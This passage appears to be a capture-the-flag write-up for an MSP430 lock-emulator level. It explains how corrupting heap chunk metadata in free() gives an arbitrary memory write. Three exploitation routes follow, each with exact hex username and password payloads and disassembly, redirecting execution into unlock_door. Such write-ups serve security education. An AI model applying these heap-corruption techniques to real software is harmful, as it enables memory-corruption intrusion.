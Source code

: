 It means that an attacker can manipulate the value of any address in memory as metadata for the second chunk can be manipulated by overriding it with the data from the first chunk. 

The first obvious solution would be to overwrite the return address of the `login` function to point to `unlock_door` function which is at `0x4564`. The return address is stored at `0x439a` and holds the address `0x4440` (`__stop_progExec__`). To get `0x4564` it would require status flags & size to be `0x11f` because: `0x4564` - (`0x4440` (current value) + `0x6` (metadata size) - `0x1` (the status flags & size value is reduced by one before adding)) = `0x11f`. Also, the status flags & size bytes are 4 bytes away from the start of chunk's metadata which means that `0x439a` - `0x4` = `0x4396` shall be used as the address for previous chunk's metadata:

Username: `31313131313131313131313131313131964334241f01`

Password: `313131313131313131313131313131311e24082401`

The second solution would be not to call `free` two times, but to modify return address for `free` function during the first call. The return address is stored at `0x4394` and holds the address `0x46a8`, so to get `0x4564` integer overflow is required. Following the same logic as for the previous solution, the value of status flags & size for the second chunk would be `0xfeb6`; the address for previous chunk's metadata - `0x4390`. The password stays the same, only the username changes (true for all subsequent solutions):

Username: `3131313131313131313131313131313190433424b6fe`

The third solution is based on the fact that `unlock_door` function is right after `free` function inside the memory which means that it is possible to overwrite last bytes of `free` function to jump straight into `unlock_door` during the first call. The disassembly looks as follows:
```assembly
4556:  9f4e 0200 0200 mov	0x2(r14), 0x2(r15)
455c:  8e4f 0000      mov	r15, 0x0(r14)
4560:  3b41           pop	r11
4562:  3041           ret
4564 <unlock_door>
4564:  3012 7f00      push	#0x7f
4568:  b012 b646      call	#0x46b6 <INT>
456c:  2153           incd	sp
456e:  3041           ret
```
 
The task is to overwrite `ret` instruction, do not use `call` and do not corrupt `unlock_door`. To do that, `0x4562` shall be overwritten to anything dummy considering that: (a) previous 2 bytes (`pop r11`) will also be overwritten to point to the next chunk's address, so whatever address is used for this, metadata 4 bytes away shall also indicate that it is allocated; (b) endianness is little-endian, so instead of adding `0x3041`, `0x4130` is used. Luckily, `0x3424` (which is `0x2434` address, third chunk on the heap) corresponds to `jz $+0x6a` instruction and zero bit of the status register is not set by the end of the `free` function. So it is possible to overwrite the end of the function with two jumps that will not be taken:
```assembly
4556:  9f4e 0200 0200 mov	0x2(r14), 0x2(r15)
455c:  8e4f 0000      mov	r15, 0x0(r14)
4560:  3424           jz	$+0x6a
4562:  3424           jz	$+0x6a
4564 <unlock_door>
4564:  3012 7f00      push	#0x7f
4568:  b012 b646      call	#0x46b6 <INT>
456c:  2153           incd	sp
456e:  3041           ret
```
